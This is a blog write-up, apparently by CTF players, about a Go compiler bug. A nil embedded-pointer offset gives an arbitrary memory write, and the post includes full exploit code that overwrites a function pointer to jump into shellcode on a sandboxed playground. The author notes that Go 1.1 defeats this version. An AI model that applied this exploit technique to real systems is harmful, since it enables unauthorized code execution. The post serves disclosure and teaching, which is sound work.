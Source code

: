 ```yaml
---
title: Exploiting a Go Binary
layout: post
authors:
  - Alex Reece <awreece>
categories: []
---
```

## Introduction

Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using [this issue][1]. geohot and I had a wager over who could get the first remote code execution on [play.golang.org][2]: he won, but just barely ;-). Props also to ricky for helping to find the underlying cause/writing the patch. Here is a summary of how we did it.

Note: [play.golang.org][2] is properly sandboxed, so code execution there does not actually let you do anything. Had this been a more serious bug that could actually be used for anything malicious, we would have reported it and not used it as a CTF problem.

This post is cross posted on my personal blog, original post [there][3].

<!--more-->

## The Bug

Go has support for embedded structs. You can define an embedded struct as follows:

```
type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct
```

It is valid to do both `instance.bar` and `instance.foo`.

The [problem][1] comes when you try something slightly trickier:

```
type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct
```

When you access `instance.foo` (a member of an uninitialized struct), it incorrectly offsets from 0 rather than the base of an `Embedded` struct. Normally, when dereferencing a pointer inside a struct, the go compiler emits guard code which will cause a segfault if the pointer is nil. However, this code is not emitted when the pointer is the first element of the struct, since it's assumed that this will cause a segfault whenever it is used anyway. This assumption is not always valid, as the pointer can be to a large struct such that the offsets of members of the large struct are valid addresses.

## The Vulnerability

We define an enormous struct and use it to offset memory:

```
type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct
```

Now we can do `instance.address = 0xdeadbeef` and we have written to `0x400100`! This is the arbitrary write primitive we need.

## The Exploit

Once you have an arbitrary write in go, it is *really easy* to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn't work on 64bit Go &mdash; apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has *no randomization* at all, this is as simple as running the program twice. Full exploit below:

```
package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &#038;shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of a Nested struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=5336
 *Nested
}

var unused = func () {}

func main() {
 s := &#038;Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &#038;unused)
 fmt.Println("With this: ", &#038;shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &#038;s.payload, " with ", val_to_overwrite)

 *(&#038;s.payload) = val_to_overwrite;

 unused();
}}
```

## What Now?

Well, clearly this issue should be fixed. I also think it is important for Go to add the standard protections (ASLR, NX) &mdash; I posted [an article][4] earlier about security in Go where I strongly advocated those protections. If this language is to be taken seriously, it should really start worrying about making exploitation difficult.

*Edit:* this article was written a while ago. The the above exploit will not work because [Go 1.1 uses a non-executable heap and stack][5] (the vulnerability still gives an arbitrary read/write, but a little extra work is needed to complete the exploit). Good job go!

 [1]: https://code.google.com/p/go/issues/detail?id=5336
 [2]: http://play.golang.org
 [3]: http://codearcana.com/posts/2013/04/23/exploiting-a-go-binary.html
 [4]: http://codearcana.com/posts/2012/05/06/securing-and-exploiting-go-binaries.html
 [5]: https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0